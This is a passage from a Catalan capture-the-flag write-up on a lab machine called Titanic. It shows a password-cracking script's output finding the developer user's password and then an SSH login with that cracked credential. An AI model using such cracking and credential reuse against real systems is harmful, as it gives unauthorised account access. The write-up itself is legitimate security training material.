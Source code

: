 El resultat d'executar l'script:

```
Comprovant contrasenya 5620: emogurl
Comprovant contrasenya 5621: callalily
Comprovant contrasenya 5622: baby21
Comprovant contrasenya 5623: 25282528

Found password: 25282528
```

Ara, ja ens podem connectar amb l'usuari developer per ssh ja que ja tenim la seva contrasenya:

```
┌──(kali㉿kali)-[~/Documentos/Titanic]
└─$ ssh developer@10.10.11.55
The authenticity of host '10.10.11.55 (10.10.11.55)' can't be established.
ED25519 key fingerprint is SHA256:Ku8uHj9CN/ZIoay7zsSmUDopgYkPmN7ugINXU0b2GEQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.55' (ED25519) to the list of known hosts.
developer@10.10.11.55's password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-131-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Mon Apr 21 07:07:49 AM UTC 2025

  System load:  0.02              Processes:             227
  Usage of /:   67.7% of 6.79GB   Users logged in:       1
  Memory usage: 14%               IPv4 address for eth0: 10.10.11.55
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: in**     from 10.10.14.26
developer@titanic:~$ whoami
developer
```
